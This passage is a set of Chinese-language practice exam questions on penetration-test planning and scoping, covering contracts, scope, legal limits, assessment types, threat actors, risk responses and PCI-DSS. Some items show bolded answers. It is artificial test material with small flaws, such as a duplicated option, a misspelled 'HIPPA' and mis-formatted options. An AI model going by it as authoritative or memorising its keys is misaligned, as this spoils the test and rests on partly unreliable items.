3.  主服务协议（`MSA`）

4.  工作说明书（`SOW`）

## 43. 约定未来协议大部分条款的合同类型

以下哪项合同是双方同意将管辖未来协议的大部分条款？

1.  主服务协议（`MSA`）

2.  保密协议（`NDA`）

3.  工作说明书（`SOW`）

4.  采购订单（`PO`）

## 44. 渗透测试人员入职时通常需签署的协议

您最近受聘于一家安全公司，负责对客户进行渗透测试。新雇主最可能要求您将以下哪些协议作为雇佣条件签署？（选择两项。）

1.  主服务协议（`MSA`）

2.  保密协议（`NDA`）

3.  工作说明书（`SOW`）

4.  采购订单（`PO`）

5.  竞业禁止协议

## 45. 美国联邦政府合同中替代 SOW 的文件

您的渗透测试咨询公司正在与美国联邦政府谈判合同，以对其部分系统运行渗透测试。您将被要求签署以下哪些协议来代替工作说明书（`SOW`）？（选择两项。）

1.  目标陈述（`SOO`）

2.  绩效工作说明书（`PWS`）

3.  竞业禁止协议

4.  采购订单（`PO`）

## 46. 多租户办公楼中网络渗透测试的范围界定

您正在定义即将进行的渗透测试范围。客户的办公室位于一个包含许多其他租户的大型办公楼内。客户要求将其组织网络纳入测试。应将以下哪些参数标识为范围内对象？（选择两项。）

1.  邻近租户拥有的面向公众的 Web 服务的 IP 地址

2.  邻近租户拥有的边界安全设备的 IP 地址

3.  邻近租户使用的无线 SSID

4.  客户使用的无线 SSID

5.  客户内部网络使用的 IP 地址范围

## 47. 渗透测试结束后撰写最终报告的依据

您最近为一位客户完成了渗透测试，现在需要撰写最终结论。您应该怎么做？

1.  依靠您对测试过程中发生事件的记忆来编写报告。

2.  分析测试人员的书面日志文件。

3.  请您的同事测试人员通过电子邮件发送给您他们在测试期间发现的前三个问题。

4.  请客户的 IT 人员通过电子邮件发送给您他们在测试期间注意到的前三个问题。

## 48. 物理安全渗透测试的评估类型

客户聘请您测试其设施的物理安全。他们允许您自由尝试使用任何方法渗透其设施，只要不伤害任何人或损坏财产。此场景中进行的是哪种类型的评估？

1.  目标导向型

2.  并购前

3.  合规导向型

4.  供应链

## 49. 信用卡数据处理要求的合规性评估

您的一位客户接受客户信用卡付款，并使用其内部网络和服务器处理支付。信用卡公司均规定，客户必须定期接受渗透测试，以确保其密码策略、数据隔离策略、访问控制和密钥管理机制充分保护消费者信用卡数据。此场景需要哪种类型的评估？

1.  目标导向型

2.  合规导向型

3.  供应链

4.  红队演练

## 50. 并购前渗透测试评估类型

您的一位客户最近被一家大型跨国组织收购。在收购最终确定之前，您的客户必须接受广泛的渗透测试。此场景需要哪种评估？

1.  目标导向型

2.  并购前

3.  合规导向型

4.  供应链

## 51. 供应链渗透测试可预防的攻击场景

某组织的网络最近被黑客攻破。攻击者首先攻破了该组织一家承包商薄弱的安全防线。随后，他们利用承包商的身份验证凭证访问了该组织本身。哪种类型的渗透评估本可以预防此事？

1.  目标导向型

2.  并购前

3.  目标导向型

4.  供应链

## 52. 内部红队演练评估类型

您在大型组织的安全团队工作。您的团队被要求进行内部渗透测试，以验证组织的 IT 人员是否能充分抵御攻击。此场景使用哪种类型的评估？

1.  目标导向型

2.  合规导向型

3.  供应链

4.  红队演练

## 53. 威胁行为者等级划分（从低到高威胁）

以下哪个威胁行为者等级划分（一般来说）按威胁程度从低到高排序？

1.  脚本小子、黑客活动家、恶意内部人员、有组织犯罪、民族国家

2.  脚本小子、恶意内部人员、黑客活动家、有组织犯罪、民族国家

3.  黑客活动家、脚本小子、恶意内部人员、民族国家、有组织犯罪

4.  民族国家、有组织犯罪、恶意内部人员、黑客活动家、脚本小子

## 54. 针对黑客活动家威胁建模的渗透测试

您的一位客户是一个公共倡导团体。其部分政治立场在几个边缘激进分子中非常不受欢迎，他们担心黑客活动家可能会试图劫持其面向公众的网站。他们要求您使用典型黑客活动家具备的技术能力和资金可用的相同工具和技术运行渗透测试。此场景中发生了什么过程？

1.  尽职调查

2.  风险接受

3.  威胁建模

4.  范围蔓延

## 55. 渗透测试风险接受确认过程

您正在与新客户会面，以确定未来渗透测试的参数。在讨论过程中，您询问客户是否愿意接受渗透测试可能导致其组织内部服务中断这一事实。客户给予了肯定答复。此场景中发生了什么过程？

1.  风险接受

2.  尽职调查

3.  威胁建模

4.  风险转移

# 渗透测试场景题

## 56. 范围蔓延

你正在为客户进行渗透测试。原始测试要求你测试客户某个远程分支机构的安全性。客户今天来电表示，他们担心第二个分支机构的安全准备情况。他们坚持要求你将渗透测试范围扩大到包含第二个站点。此场景中发生了什么过程？

1.  尽职调查

2.  风险接受

3.  威胁建模

4.  **范围蔓延**

## 57. 国际携带渗透测试工具的法律风险

客户要求你运行白盒渗透测试。其组织在英国、沙特阿拉伯、巴基斯坦和香港设有办事处。你将渗透测试工具包加载到笔记本电脑上，前往每个办事处现场运行评估。在此场景中，你做错了什么？

1.  **跨国携带某些渗透测试软件和硬件可能是非法的。**

2.  笔记本电脑没有足够的计算能力来有效运行渗透测试。

3.  可以通过从测试人员的家庭位置远程运行评估来降低差旅成本。

4.  没有错误。你做的一切都正确。

## 58. 通过互联网传输渗透测试软件的合法性

客户要求你运行白盒渗透测试。其组织在美国、印度尼西亚、泰国和新加坡设有办事处。为避免国际运输渗透测试软件，你将其上传到 `Google Drive` 账户。然后你前往每个站点，下载软件并在笔记本电脑上本地运行。你在此场景中是否妥善处理了渗透测试软件？

1.  是的，使用 `Google Drive` 访问软件可以在国际上免受起诉。

2.  不，大多数外国国家都屏蔽了对 `Google Drive` 的访问。

3.  不，将大多数渗透测试软件带入这些国家是合法的。

4.  **不，通过互联网在国际上传输大多数渗透测试软件是非法的。**

## 59. 美国多州渗透测试的法律合规范围

你受邀为一个在纽约市、洛杉矶和法戈设有办事处的组织执行渗透测试。在确定评估范围时，你需要检查哪些网络安全法律法规？

1.  美国联邦网络安全法律

2.  **纽约州、加利福尼亚州和北达科他州的州级网络安全法律**

3.  每个物理位置的当地网络安全法律

4.  国际刑警组织法规

## 60. SOAP 应用文档需求：WSDL

客户要求你运行白盒渗透测试。目标是评估其基于 Web 的应用程序的安全性。这些应用程序利用**简单对象访问协议（`SOAP`）**。在确定范围的过程中，你认为如果能访问组织内部这些应用程序的文档会很有帮助。你应该向客户索要以下哪项？

1.  **Web 服务描述语言（`WSDL`）文档**

2.  软件开发工具包（`SDK`）文档

3.  Web 应用程序描述语言（`WADL`）文档

4.  应用程序编程接口（`API`）文档

## 61. REST 应用文档需求：WADL/Swagger/OpenAPI

客户要求你运行白盒渗透测试。目标是评估其基于 Web 的应用程序的安全性。这些应用程序基于**表述性状态转移（`REST`）架构**。在确定范围的过程中，你认为如果能访问组织内部这些应用程序的文档会很有帮助。你应该向客户索要以下哪项？

1.  Web 服务描述语言（`WSDL`）文档

2.  软件开发工具包（`SDK`）文档

3.  **Web 应用程序描述语言（`WADL`）文档**

4.  应用程序编程接口（`API`）文档

> **注意**：现代 `REST` API 通常使用 `Swagger`/`OpenAPI` 规范，但 `WADL` 是题目选项中针对 `REST` 描述语言的标准答案。

## 62. C++ 内部 PC 应用文档需求：SDK 与 API

客户要求你运行白盒渗透测试。目标是评估几个使用 `C++` 编程语言内部编写的 PC 应用程序的安全性。这些应用程序被员工日常用于管理订单、库存和付款。在确定范围的过程中，你认为如果能访问组织内部这些应用程序的软件开发文档会很有帮助。你应该向客户索要以下哪项？（选择两项。）

1.  简单对象访问协议（`SOAP`）文档

2.  **软件开发工具包（`SDK`）文档**

3.  Web 应用程序描述语言（`WADL`）文档

4.  **应用程序编程接口（`API`）文档**

## 63. 黑盒测试信息需求：网络图

你正在为客户确定黑盒渗透测试的范围。目标是查看你是否能访问存储在内部数据库服务器上的信息。在开始测试前，客户应该向你提供哪些信息？

1.  架构图

2.  Swagger 文档

3.  `XSD`

4.  **网络图**

## 64. 白盒测试信息需求：所有相关文档

你正在为客户确定白盒渗透测试的范围。目标是查看你是否能访问存储在内部数据库服务器上的机密研究数据。你想针对客户最终用户每天用来在数据库中编目和存储信息的内部开发数据收集应用程序。在开始测试前，客户应该向你提供哪些信息？

1.  架构图

2.  示例请求

3.  `XSD`

4.  **以上全部**

## 65. 白盒测试架构图补充：网络图与 Swagger

你正在为客户确定白盒渗透测试的范围。目标是查看你是否能访问存储在内部数据库服务器上的机密客户数据。你已要求客户提供架构图。客户还应向你提供哪些信息？（选择两项。）

1.  **Swagger 文档**

2.  简单对象访问协议（`SOAP`）文档

3.  **网络图**

4.  `XSD`

5.  设施地图

## 66. 样本应用请求生成工具：内部开发应用

你正在为客户确定白盒渗透测试的范围。目标是查看你是否能访问存储在内部数据库服务器上的机密研究数据。为了便于此项工作，你要求客户提供最终用户用于生成示例应用程序请求的应用程序的访问权限。请求中应包含哪些特定应用程序？（选择两项。）

1.  **用于访问数据库中存储信息的内部开发桌面应用程序**

2.  Microsoft Word，最终用户每天用它撰写存储在数据库中的文档

3.  Microsoft Excel，最终用户每天用它制作存储在数据库中的电子表格

4.  **用于利用数据库中存储的信息生成报表的内部开发 Web 应用程序**

5.  Adobe Photoshop，最终用户每天用它编辑存储在数据库中的图形文件

## 67. 生成样本应用请求的方法：模拟真实用户数据

你想为客户用户每天用来完成日常任务的内部开发 Web 应用程序生成示例应用程序请求。应该如何操作？

1.  在 Web 应用程序中输入最终用户输入的完全相同的数据。

2.  **在应用程序中输入与最终用户输入的数据相似的数据。**

3.  在应用程序中输入完全意想不到的数据。

4.  请系统管理员为你生成样本。

## 68. 基于 WSDL 的消息协议规范：SOAP

以下哪项是消息协议规范，它定义了结构化信息如何在 Web 应用程序之间交换，并且是从 `WSDL` 文件创建的？

1.  **`SOAP`**

2.  `XSD`

3.  `WADL`

4.  `Swagger`

## 69. REST Web 服务开源框架：Swagger

以下哪项是旨在帮助开发人员设计、构建、记录和测试**表述性状态转移（`REST`）Web 服务**的开源框架？

1.  `SOAP`

2.  `XSD`

3.  `WSDL`

4.  **`Swagger`**

## 70. REST 架构基础协议：HTTP

以下哪种协议是**表述性状态转移（`REST`）Web 应用程序架构**基于的？

1.  `FTP`

2.  **`HTTP`**

3.  `SMB`

4.  `LDAP`

## 71. 基于 XML 的 SOAP 服务接口定义语言：WSDL

以下哪项是基于 XML 的接口定义语言，用于描述简单对象访问协议（`SOAP`）服务器提供的功能？

1.  **Web 服务描述语言（`WSDL`）**

2.  Web 应用程序描述语言（`WADL`）

3.  表述性状态转移（`REST`）

4.  Swagger

## 72. REST Web 服务的 XML 描述架构：WADL

以下哪种架构用于提供基于 HTTP 的 Web 服务的基于 XML 的描述，这些 Web 服务运行在 Web 应用程序服务器上，并通常与表述性状态转移（`REST`）Web 应用程序一起使用？

1.  简单对象访问协议（`SOAP`）

2.  **Web 应用程序描述语言（`WADL`）**

3.  表述性状态转移（`REST`）

4.  Swagger

## 73. W3C XML 文档元素定义规范：XSD

以下哪项是万维网联盟（`W3C`）的规范，用于标识如何定义 XML 文档中的元素？

1.  SOAP

2.  **XSD**

3.  REST

4.  WSDL

## 74. 白盒测试信息需求补充：SDK 文档

你正在为客户确定白盒渗透测试的范围。目标是查看你是否能访问存储在内部数据库服务器上的机密研究数据。你想以客户终端用户每天用于在数据库中编目和存储信息的内部开发数据收集应用程序为目标。客户应在测试开始前向你提供哪些信息？

1.  配置文件

2.  数据流图

3.  软件开发工具包（`SDK`）文档

4.  以上所有

## 75. 白盒测试前的安全配置：IPS 白名单与 NAC 例外

你正在为客户确定白盒渗透测试的范围。目标是查看你是否能访问存储在内部数据库服务器上的敏感患者数据。客户应在测试开始前做什么？（选择两项。）

1.  在其入侵防御系统（`IPS`）中将测试人员的用户账户列入黑名单。

2.  **在其入侵防御系统（`IPS`）中将测试人员的用户账户列入白名单。**

3.  将网络防火墙配置为故障开放模式运行。

4.  **配置安全例外，允许渗透测试人员的系统绕过网络准入控制（`NAC`）。**

5.  将网络防火墙配置为故障关闭模式运行。

## 76. 黑盒测试前的账户准备：标准用户权限

你正在为客户确定黑盒渗透测试的范围。目标是查看你是否能访问存储在内部数据库服务器上的敏感财务数据。客户应在测试开始前做什么？

1.  为测试人员创建拥有与典型员工相同权限级别的内部用户账户。


## 2. 在其 Web 应用程序防火墙 (WAF) 中将测试人员的用户账户列入白名单。

## 3. 配置证书绑定。

## 4. 配置安全例外，允许渗透测试人员的系统绕过网络准入控制 (NAC)。

## 5. 以上都不是。

### 77. 你正在为客户确定白盒渗透测试的范围。客户已实施带有 IPSec 的网络准入控制 (NAC)，以防止不符合公司策略的设备连接到安全的内部网络。因为你正在进行白盒测试，你的测试人员系统需要绕过 NAC 并被授予对内部安全网络的直接访问权限。客户应如何做到这一点？

1. 配置证书绑定。
2. 将他们的计算机连接到安全内部网络上的一个交换机端口。
3. 为每个系统配置 NAC 例外。
4. 暂时禁用 NAC。

### 78. 在一次渗透测试期间，一名员工将一扇无人监控的侧门敞开，测试人员随后利用该门获得了对客户设施的物理访问权限。为防止再次发生这种情况，客户将该门及其门框从建筑物中完全拆除，并用混凝土填充该空间。此场景描述了哪种类型的风险响应？

1. 规避
2. 转移
3. 缓解
4. 接受

### 79. 在一次渗透测试期间，一名员工将一扇无人监控的侧门敞开，测试人员随后利用该门获得了对客户设施的物理访问权限。为防止再次发生这种情况，客户在走廊安排了一名保安，并指示她防止未经授权的访问。此场景描述了哪种类型的风险响应？

1. 规避
2. 转移
3. 缓解
4. 接受

### 80. 你的客户托管一个大型电子商务网站，销售服装和配饰。在一次渗透测试期间，测试人员能够在客户信用卡号由内部刷卡处理应用程序处理时将其拦截。为防止再次发生这种情况，客户决定将所有信用卡处理外包给第三方处理商。所有交易都重定向到第三方处理商，以便你的客户永远不会看到实际的信用卡数据。此场景描述了哪种类型的风险响应？

1. 规避
2. 转移
3. 缓解
4. 接受

### 81. 一个组织最近得知其设施建在距离主要断层线几百码的地方。管理团队决定购买一份延伸保险单，以便在地震发生时承担业务运营损失。此场景描述了哪种类型的风险响应？

1. 规避
2. 转移
3. 缓解
4. 接受

### 82. 在一次渗透测试期间，你的测试人员发现他们可以轻松地将机密数据复制到个人移动设备上，然后使用设备的移动宽带连接将该数据发送给组织外部的接收者。你建议他们实施移动设备管理 (MDM) 系统。然而，客户认为此类措施实施起来太昂贵且太复杂。事实上，他们不会实施任何类型的控制来防止未来再次发生这种情况。此场景描述了哪种类型的风险响应？

1. 规避
2. 转移
3. 缓解
4. 接受

### 83. 你刚与一位要求你为其执行渗透测试的新客户会面。该客户管理一系列接受信用卡的零售门店。他们需要你评估他们是否符合 PCI-DSS 标准。在范围确定过程中，你首先应该做什么？

1. 协商渗透测试的费用。
2. 审查 PCI-DSS 要求。
3. 设定渗透测试的时间表。
4. 冒充顾客访问几家门店以预先评估该组织。

### 84. 你刚与一位要求你为其执行渗透测试的新客户会面。该客户管理一系列接受信用卡的零售门店。他们需要你评估他们是否符合 PCI-DSS 标准。评估中需要包含以下哪些测试？（选择两项。）

1. 对持卡人数据的物理访问受到限制。
2. 持卡人数据环境 (CDE) 与网络的其余部分隔离。
3. 信用卡购买有退款政策。
4. 有拒付政策。
5. 收银员需要核对卡背面签名与顾客的签名是否一致。

### 85. 你刚与一位要求你为其执行渗透测试的新客户会面。该客户管理一系列接受信用卡的零售门店。他们需要你评估他们是否符合 PCI-DSS 标准。评估中需要包含以下哪些测试？（选择两项。）

1. 仅使用经微软认证兼容 Windows 10 的硬件。
2. 加密持卡人数据的传输。
3. 确保所有员工仅使用一个用户账户访问网络资源和持卡人数据。
4. 使用 NAT 路由器将持卡人数据环境（CDE）与网络的其余部分隔离。
5. 从软件和硬件设备中移除所有默认密码。

## 86. 你刚与一位新客户会面，该客户要求你为其执行渗透测试。该客户管理着一系列接受信用卡的零售门店。他们需要你评估其是否符合 PCI-DSS 标准。以下哪些测试需要包含在评估中？

1. 在所有系统上安装并更新防病毒软件。
2. 环境中仅使用经过安全认证的思科路由器。
3. 在保护持卡人数据环境（CDE）的防火墙上，关闭除 139 和 445 之外的所有端口。
4. 禁用对持卡人数据访问的所有监控。

## 87. 你刚与一位新客户会面，该客户要求你为其执行渗透测试。该客户管理着一系列接受信用卡的零售门店。他们需要你评估其是否符合 PCI-DSS 标准。以下哪些测试需要包含在评估中？

1. 必须制定密码策略。
2. 在保护持卡人数据环境（CDE）的防火墙上，关闭除 80 和 443 之外的所有端口。
3. 网络上的所有主机必须拥有默认网关。
4. 网络上的所有主机必须拥有唯一的主机地址。

## 88. 你刚与一位新客户会面，该客户要求你为其执行渗透测试。该客户管理着一系列接受信用卡的零售门店。他们需要你评估其是否符合 PCI-DSS 标准。以下哪些测试需要包含在评估中？（选择两项。）

1. 监控对持卡人数据的所有访问。
2. 确保使用 WPA2 保护所有无线网络。
3. 确保使用 TKIP 保护所有无线网络。
4. 基于业务需要知情原则限制对持卡人数据的访问。

## 89. 哪部法律规定了金融机构如何处理客户的个人信息？

1. GLBA
2. SARBOX
3. HIPPA
4. FIPS 140-2

## 90. 哪部法律要求医疗保健相关组织必须遵守特定的安全标准？

1. GLBA
2. SARBOX
3. HIPPA
4. FIPS 140-2

## 91. 哪部法律为美国上市公司在安全策略、标准和控制方面设定了标准？

1. GLBA
2. SARBOX
3. HIPPA
4. FIPS 140-2

## 92. 以下哪项提供认证加密模块的标准？

1. GLBA
2. SARBOX
3. HIPPA
4. FIPS 140-2

## 93. 一位新客户致电安排灰盒渗透测试。你通过电话收集了一些关于客户的基本信息，拟定了测试范围，并制定了测试计划。然后你雇佣了几名承包商协助进行测试，并在预定日期开始评估。你是否正确地界定了此次评估的范围？

1. 是的，遵循了正确的范围界定程序。
2. 不是，应在创建范围之前定义计划。
3. 不是，你在界定评估范围前，应该花更多时间了解目标受众。
4. 不是，承包商本应协助创建评估范围。

## 94. 你刚为一位客户完成灰盒渗透测试。你撰写了最终报告并提交给客户。你还确保了客户为测试授予的所有访问权限均已禁用。你撰写了一篇博客文章，披露了客户身份和评估结果并发布，以确保没有其他人重蹈该客户的安全错误覆辙。你是否正确地终止了渗透测试？

1. 是的，渗透测试已正确终止。
2. 不是，访问权限应保留以备下一次渗透测试使用。
3. 不是，应在生成最终报告前移除访问权限。
4. 不是，发现结果的机密性未得到维护。

## 95. 你正在为客户界定即将进行的外部黑盒渗透测试的范围。你正试图确定测试包含的内容和不包含的内容。你应该向客户提出以下哪些问题？（选择两项。）

1. 测试是否应聚焦于某个特定的已知漏洞？
2. 客户是否授予其设施的物理访问权限？
3. 测试是否应查找未知漏洞？
4. 客户是否提供管理员级别的账户以进行评估？

## 96. 你正在为客户界定即将进行的外部黑盒渗透测试的范围。你的一名渗透测试人员开发了一款非常激进的漏洞扫描器。事实上，在之前的一次测试中，她的扫描器导致客户的面向客户的网站瘫痪了近 30 分钟。然而，通过这样做，该客户得以深入了解其 Web 应用程序软件中的多个漏洞。对于当前的客户，你应该怎么做？

1. 指示你的渗透测试人员在即将到来的评估中不使用其漏洞扫描器。
2. 指示你的渗透测试人员在即将到来的评估中使用其漏洞扫描器。
3. 与新客户进行影响分析，并确定其对影响的容忍度。
4. 解雇该渗透测试人员。

## 97. 在规划即将进行的渗透测试时，客户要求你在项目范围中包含评估结束状态的描述。此描述应包含哪类信息？（选择两项。）

1. 测试分配资金的花费明细
2. 测试完成后将向客户提供何种报告的描述
3. 修复时间表，预估使其系统达到合规状态所需的时间
4. 进行评估的所有渗透测试人员名单

## 98. 你正在界定即将进行的渗透测试范围。你需要确定与测试相关的技术约束。范围文档的此部分应包含什么内容？

1. 你的测试人员不合格使用的渗透测试工具列表
2. 禁止测试的系统列表
3. 客户 IT 员工未获得认证的技术列表
4. 客户组织内使用的未认证硬件设备列表

## 99. 你正处于与新客户界定灰盒渗透测试范围的初始阶段。为了更好地定义项目范围，你应该提出什么问题？

1. 过去谁为客户执行过渗透测试？
2. 所有内部技术人员的姓名和电子邮件地址是什么？
3. 测试应在现场进行还是从异地进行？
4. 是否有靠窗的工位可供渗透测试人员使用？

## 100. 你正在界定一项黑盒渗透测试。渗透测试人员应在物理上位于何处？

1. 组织 IT 部门内部
2. 任何外部位置
3. 竞争对手组织的设施内
4. 组织设施内部的任何位置

## 101. 你是一家中型企业的 CIO。你正在制定一项实施定期渗透测试的计划，并考虑使用由你自己的员工组成的内部渗透测试团队。使用内部团队有以下哪些好处？（选择两项。）

1. 他们拥有组织的背景知识。
2. 他们比外部承包商偏见更小。
3. 他们拥有执行彻底测试所需的独立性。
4. 他们拥有为许多组织执行渗透测试的深入经验。
5. 这通常比使用外部承包商更便宜。

## 102. 你是一家中型公司的 CIO。你正在制定一项实施定期渗透测试的计划，并考虑使用外部渗透测试承包商。以下哪些是使用外部团队的好处？（选择两项。）

1. 他们拥有组织的上下文知识。
2. 他们比内部团队偏见更少。
3. 他们拥有执行彻底测试所需的独立性。
4. 他们对组织内部的安全控制非常熟悉。
5. 这通常比使用内部团队更便宜。

## 103. 你是一家中型公司的 CIO。你正在制定一项实施定期渗透测试的计划，并考虑使用由你自己的员工组成的内部渗透测试团队。以下哪些是使用内部团队的缺点？（选择两项。）

1. 维护内部团队非常昂贵。
2. 如果他们还为你的竞争对手之一执行测试，则存在潜在的利益冲突。
3. 他们可能觉得发现的漏洞会对他们自己产生负面影响。
4. 他们可能缺乏客观性。

## 104. 你是一家中型公司的 CIO。你正在制定一项实施定期渗透测试的计划，并考虑使用外部渗透测试承包商。以下哪些是使用外部团队的缺点？（选择两项。）

1. 如果他们还为你的竞争对手之一执行测试，则存在潜在的利益冲突。
2. 他们缺乏内部团队的技术人才。
3. 他们通常比内部团队更昂贵。
4. 他们可能将个人偏见带入测试中。

## 105. 在渗透测试的背景下，以下哪项最能描述“黑客心态”这一术语？

1. 渗透测试人员必须采取防御心态，尝试防范所有威胁。
2. 渗透测试人员必须像安全专业人员一样思考，评估正在使用的每个安全控制的强度和价值。
3. 渗透测试人员必须像现实世界中可能攻击该系统的对手一样思考。
4. 渗透测试人员必须像军事领导人一样思考，组织一场由许多攻击者在多个战线上发起的公开攻击。

## 106. 在渗透测试的背景下，以下哪项最能描述“机密性”这一术语？

1. 防止未经授权访问信息
2. 防止未经授权修改信息
3. 确保信息可供授权访问
4. 防止合法访问信息

## 107. 在渗透测试的背景下，以下哪项最能描述“完整性”这一术语？

1. 防止未经授权访问信息
2. 防止未经授权修改信息
3. 确保信息可供授权访问
4. 获得未经授权访问信息

## 108. 在渗透测试的背景下，以下哪项最能描述“可用性”这一术语？

1. 防止未经授权访问信息
2. 防止未经授权修改信息
3. 确保信息可供授权访问
4. 对信息进行未经授权的更改

## 109. 在渗透测试的背景下，以下哪项最能描述“披露”这一术语？

1. 获得未经授权访问信息
2. 对信息进行未经授权的更改
3. 防止合法使用信息
4. 公开承认发生了安全漏洞且信息已泄露

## 110. 在渗透测试的背景下，以下哪项最能描述“篡改”这一术语？

1. 获得未经授权访问信息
2. 对信息进行未经授权的更改
3. 防止合法使用信息
4. 利用一次成功的入侵，入侵网络中另一个原本无法访问的系统

## 111. 在渗透测试的背景下，以下哪项最能描述“拒绝服务”这一术语？

1. 获得未经授权访问信息
2. 对信息进行未经授权的更改
3. 防止合法使用信息
4. 未能公开承认发生了安全漏洞且信息已泄露

## 112. Natasha 正在运行灰盒渗透测试，并发现了一个 Web 应用程序中的缺陷，该缺陷允许她直接访问存储在后端数据库服务器上的信息。她实现了哪个渗透测试目标？

1. 披露
2. 完整性
3. 篡改
4. 拒绝服务

## 113. Kimberly 正在运行灰盒渗透测试，并发现了一个在线公司目录应用程序中的缺陷，该缺陷允许她在员工查找字段中提交 LDAP 命令。她利用此缺陷添加了一个新用户账户，以便将其用作后门。她实现了哪个渗透测试目标？

1. 披露
2. 可用性
3. 篡改
4. 拒绝服务

## 114. Jessica 正在运行灰盒渗透测试。她使用 `Low Orbit Ion Cannon` 实用程序向组织内的一台文件服务器发送大量 TCP 数据包。结果，文件服务器过载，无法再响应合法的网络请求。她实现了哪个渗透测试目标？

1. 披露
2. 机密性
3. 篡改
4. 拒绝服务

## 115. Brittany 正在运行灰盒渗透测试。她发现了一个 HR Web 应用程序中的缺陷。使用 `SQL injection` 攻击，她可以向当前薪资周期的员工工时卡添加或删除工时。她实现了哪个渗透测试目标？

1. 披露
2. 可用性
3. 篡改
4. 机密性

## 116. 一家在线零售商直接处理信用卡订单的支付处理。因此，信用卡公司要求该组织符合 `PCI-DSS` 标准。该组织何时必须进行渗透测试？（选择两项。）

1. 每月一次
2. 每六个月一次
3. 每年一次
4. 每当对网络基础设施进行重大更改时
5. 在旺季（如假期）来临前立即进行

## 117. Joshua 为一家渗透测试咨询公司工作。在最近的一次渗透测试中，他针对客户的公共电子商务网站运行了一个攻击工具。该网站离线了一小时以上。客户现在威胁要起诉 Joshua 的雇主。在渗透测试流程的哪个阶段，咨询公司和客户应该就与测试相关的风险达成一致？

1. 规划和范围界定
2. 信息收集和漏洞识别
3. 攻击和利用
4. 报告和沟通

## 118. 以下哪项是在渗透测试的规划和范围界定阶段定义的文档，用于标识测试的具体技术、工具、活动、交付物和进度安排？

1. MSA
2. NDA
3. 备忘录
4. SOW

## 119. 以下哪种评估类型会为渗透测试人员提供网络防火墙的配置访问权限，而无需测试人员实际攻破该防火墙？

1. 灰盒
2. 红队
3. 黑盒
4. 白盒

## 120. 你是一家初创公司的 CIO。你已经选定了一家渗透测试公司，打算用它来进行公司的第一次渗透测试。然而，公司创始人得知你的计划后很生气。创始人担心公司产品的专有信息可能会通过承包商泄露给竞争对手。你应该要求承包商签署哪份文件以防止这种情况发生？

1. NDA
2. 竞业禁止协议
3. MSA
4. SOW

## 121. 根据对手等级列表，以下哪类威胁行为体可能危害性最小？

1. 黑客活动家
2. 恶意内部人员
3. 脚本小子
4. 国家支持的行为体

## 122. 根据对手等级列表，以下哪类威胁行为体可能危害性最大？

1. 黑客活动家
2. 恶意内部人员
3. 有组织犯罪行为体
4. APT

## 123. 你正在为客户运行渗透测试。你使用运行在个人笔记本电脑上的渗透测试工具包，对各种网络基础设施设备（包括服务器、路由器和交换机）进行扫描。突然，网络瘫痪了。你无法再访问客户网络上的任何设备。以下哪项可以解释发生了什么？

1. 你的扫描导致边界路由器崩溃。
2. 你的扫描导致网络骨干交换机崩溃。
3. 你的笔记本电脑 IP 地址被加入了白名单。
4. 你的笔记本电脑 IP 地址被加入了黑名单。

## 124. 你在一家渗透测试咨询公司工作，正在与一位潜在客户谈判。客户建议你的组织与他们的组织签署一份 `MSA`。你应该怎么做？

1. 庆祝吧！这意味着客户希望聘请你的公司进行多次业务合作。
2. 告知你的雇主这笔交易很可能不会成行。
3. 警告你的雇主潜在客户很可能会试图起诉你的公司。
4. 终止与客户的谈判。

## 125. 你正在为客户执行白盒渗透测试。你到达客户现场，将笔记本电脑插入一个空闲的网络端口。然而，你的笔记本电脑在客户网络上只获得了有限连接。你运行 `ipconfig` 命令，注意到笔记本电脑获得了一个 IP 地址，但只能看到网络上另外一台主机。为什么会发生这种情况？

1. 你的笔记本电脑被客户的入侵防御系统（`IPS`）检测到并被加入黑名单。
2. 客户的网络准入控制（`NAC`）系统已将你的笔记本电脑隔离在一个修复网络中。
3. 你的笔记本电脑被客户的入侵检测系统（`IDS`）检测到并被加入黑名单。
4. 客户在其网络交换机上启用了 MAC 地址过滤。


## 126. 一个测试团队正在为一个组织进行评估。该团队不关心评估广泛的漏洞。相反，他们正在进行一场由非常狭窄的目标所管控的协同攻击。交战规则规定，他们可以使用物理、电子和社会工程手段来实现目标。在这种情况下正在进行哪种渗透测试？

1. 基于合规性的渗透测试
2. 白盒渗透测试
3. 灰盒渗透测试
4. 黑盒渗透测试
5. **红队渗透测试**

## 127. 你正在为客户进行黑盒渗透测试。客户租用的办公空间位于一栋与其他租户共享的大楼里。你坐在客户办公室前的停车场里，扫描从大楼发出的无线网络信号。你识别出了五个独立的 SSID。你不知道哪个属于你的客户，所以你决定秘密连接所有这些 SSID，然后运行一些简单的扫描来隔离出哪个是客户的无线网络。在这个场景中，你做错了什么？

1. 坐在客户办公室前的车里很容易引起怀疑。
2. 在这种情况下，灰盒测试会更有效。
3. 向建筑物外辐射的无线信号通常太弱，无利可图。
4. **你正在攻击超出范围的无线网络。**

## 128. 以下哪类威胁行为体通常拥有开发自己大量漏洞利用代码所需的财力和技术专长？（选择两项。）

1. **有组织犯罪**
2. 恶意内部人员
3. 脚本小子
4. **国家支持的行为体**
5. 黑客活动家

## 129. 以下哪类威胁行为体利用组织合法授予他们的信任来危害该组织的信息或系统？

1. 有组织犯罪
2. **恶意内部人员**
3. 脚本小子
4. 国家支持的行为体
5. 黑客活动家

## 130. 以下哪类威胁行为体通常缺乏开发自己漏洞利用代码的技术专长，必须依赖从互联网下载的预写代码？

1. 有组织犯罪
2. 黑客活动家
3. **脚本小子**
4. 国家支持的行为体

## 131. 你正在进行白盒渗透测试。测试范围规定测试将针对组织的交换机、路由器和防火墙进行。随着评估接近完成，客户要求你利用剩余时间也测试一下她的邮件服务器。在这种情况下发生了什么？

1. 横向移动
2. 基于目标的测试
3. **范围蔓延**
4. 基于目的的测试

## 132. 你正在对一家处理信用卡的组织进行渗透测试。客户要求测试范围基于 `PCI-DSS` 标准。在这种情况下正在进行哪种类型的评估？

1. **基于合规性的评估**
2. 基于目标的评估
3. 红队评估
4. 基于目的的评估

## 133. 你正在与一位新客户谈判即将进行的渗透测试。在协议中，你包含了一条语言，规定测试结果仅在测试执行的那个时间点有效。为什么协议中要有这条语言？

1. 渗透测试可能会导致关键系统离线。
2. 测试完成后，修复网络可能需要一些时间。
3. **未来的技术变化可能会暴露当前未知的新漏洞。**
4. 渗透测试将使用真实攻击者可用的相同工具和技术。

## 134. 你正在与一位新客户谈判即将进行的渗透测试。在协议中，你包含了一条语言，规定客户要求的范围和方法会影响测试的全面性。为什么协议中要有这条语言？

1. 测试完成后，修复网络可能需要一些时间。
2. **交战规则和使用的评估类型可能会导致某些漏洞无法被发现。**
